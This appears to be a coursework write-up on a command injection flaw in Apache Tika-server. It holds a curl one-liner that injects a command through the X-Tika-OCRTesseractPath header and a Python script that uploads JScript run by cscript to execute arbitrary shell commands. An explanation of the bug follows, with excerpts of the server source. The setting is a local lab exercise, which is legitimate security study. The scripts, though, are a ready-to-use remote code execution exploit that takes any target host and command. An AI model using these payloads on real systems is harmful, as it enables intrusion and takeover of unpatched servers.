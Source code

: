 # PS
- Bug Overview: This bug leads to command injection vulnerability in Apache Tika -server 1.18 and uses Cscript.exe to execute Jscript or VBS code and run arbitrary commands.
- Aim: Write a working exploit for this CVE by which you can achieve RCE on the local VM.
- Install vulnerable service in a VM and ensure to meet the condition so that you can exploit it.
- Run your exploit on the vulnerable service and make a video of it.
- Write a brief report about this bug including your exploit code and link for exploit and Video proof.

# Environmental Setup

Download the vulnerable version of the tika-sever at https://archive.apache.org/dist/tika/tika-server-1.17.jar and start the server.  

```
java -jar tika-server-1.17.jar
```

# Exploit Code
## Exploit-1: Command Execution
```
curl -T file_example_TIFF_1MB.tiff http://localhost:9998/meta --header "X-Tika-OCRTesseractPath: \"calc.exe\""  
```

## Exploit-2: JScript Execution
```python 
#!/usr/bin/env python  

import sys 
import requests

host = sys.argv[1]
port = sys.argv[2]
cmd = sys.argv[3]

url = host+":"+str(port)+"/meta"

headers = {"X-Tika-OCRTesseractPath": "\"cscript\"", 
		"X-Tika-OCRLanguage": "//E:Jscript", 
		"Expect": "100-continue", 
		"Content-type": "image/jp2", 
		"Connection": "close"}

jscript='''var shellObj = WScript.CreateObject("WScript.Shell");
var execCmd = shellObj.Exec('cmd /c {}');'''.format(cmd)

try:
	requests.put("https://"+url, headers=headers, data=jscript, verify=False)
except:
	try:
		requests.put("http://"+url, headers=headers, data=jscript)
	except:
		print "Something went wrong."
```

# Explanation: 
## Exploit-1
The vulnerability is of command injection at tika-server and the entry point of the vulnerability is the HTTP headers. The tika-server code handles the HTTP request by checking the header prefix. In case of HTTP request with `"X-Tika-OCR" prefix`, the server code invokes `processHeaderConfig()` function which parses the HTTP request and constructs the `TesseractOCRConfig` object. The `doOCR()` function then uses the TesseractOCRConfig object to construct the command for `ProcessBuilder`. However, the doOCR() function while constructing the command appends the `OCRTesseractPath` (i.e. calc.exe)** with `tesseract.exe`. The resultant command looks like `"calc.exe"tesseract.exe ..."`. But since Windows ignores whatever is appened to it after the quotes, we are able to execute just our injected command calc.exe.  

The command constructed by the doOCR() function is as follows.  
```cmd.exe
"calc.exe"tesseract.exe <input.tmp> <output.tmp> -l eng -psm 1 txt -c preserve_interword_spaces=0
```  
This is exploited in Exploit-1 code.

## Exploit-2
The first temp file passed to the command is the input file uploaded. Thus we could fill the input file with some code and have it executed. However, the problem is the extension of the file is `".tmp"`. Also, uploading an image file with some code would due to verification of the `magic bytes` of the image. The work around is to use `Cscript` that takes the first argument as the script and allows to use `"//E:engine" flag` to specify the script engine so that the file extension does not matter. Also, setting the content type to `"image/jp2"` forces the tika-sever not to verify the magic bytes in the image. This allows an image file containing JScript/VBScript to be uploaded and executed on the server.  

The new command would now look like
```  
"cscript.exe"tesseract.exe <input.tmp> <output.tmp> -l //E:Jscript -psm 1 txt -c preserve_interword_spaces=0
```
This is exploited in Exploit-2 code.

# Server Code Snippets
### TikaResource.java
  https://github.com/apache/tika/blob/86e997510b44f12dc9f90a68aaf583d5d3912892/tikaserver/src/main/java/org/apache/tika/server/resource/TikaResource.java

```java

public static final String X_TIKA_OCR_HEADER_PREFIX = "X-Tika-OCR"; 	// HTTP header prefix

public static void fillParseContext(ParseContext parseContext, MultivaluedMap<String, String> httpHeaders,
                                        Parser embeddedParser) {
...
	TesseractOCRConfig ocrConfig = null;
	for (String key : httpHeaders.keySet()) {
            if (StringUtils.startsWith(key, X_TIKA_OCR_HEADER_PREFIX)) {
                ocrConfig = (ocrConfig == null) ? new TesseractOCRConfig() : ocrConfig;
                 
                // Parses HTTP headers and constructs TesseractOCRConfig object
                processHeaderConfig(httpHeaders, ocrConfig, key, X_TIKA_OCR_HEADER_PREFIX);	
                
            } else if (StringUtils.startsWith(key, X_TIKA_PDF_HEADER_PREFIX)) {
                pdfParserConfig = (pdfParserConfig == null) ? new PDFParserConfig() : pdfParserConfig;
                processHeaderConfig(httpHeaders, pdfParserConfig, key, X_TIKA_PDF_HEADER_PREFIX);  
            }
        }
```

## TesseractOCRParser.java
https://github.com/apache/tika/blob/86e997510b44f12dc9f90a68aaf583d5d3912892/tika-parsers/src/main/java/org/apache/tika/parser/ocr/TesseractOCRParser.java

```java
private void parse(TikaInputStream tikaInputStream, File tmpOCROutputFile, ParseContext parseContext,
                       XHTMLContentHandler xhtml, TesseractOCRConfig config)
...
        // Uses TesseractOCRConfig object constructed with processHeaderConfig
        doOCR(tmpFile, tmpOCROutputFile, config);	

private void doOCR(File input, File output, TesseractOCRConfig config) throws IOException, TikaException {

        // Construction of command string using TesseractPath
        ArrayList<String> cmd = new ArrayList<>(Arrays.asList(
                config.getTesseractPath() + getTesseractProg(), input.getPath(),  output.getPath(), "-l",
                config.getLanguage(), "--psm", config.getPageSegMode()
        )); 

	for (Map.Entry<String, String> entry : config.getOtherTesseractConfig().entrySet()) {
            cmd.add("-c");
            cmd.add(entry.getKey() + "=" + entry.getValue());
        }
        cmd.addAll(Arrays.asList(
                "-c", "page_separator=" + config.getPageSeparator(),
                "-c",
                (config.getPreserveInterwordSpacing())? "preserve_interword_spaces=1" : "preserve_interword_spaces=0",
                config.getOutputType().name().toLowerCase(Locale.US)
        ));
        ProcessBuilder pb = new ProcessBuilder(cmd);
        setEnv(config, pb);
        final Process process = pb.start(); // Command execution
```
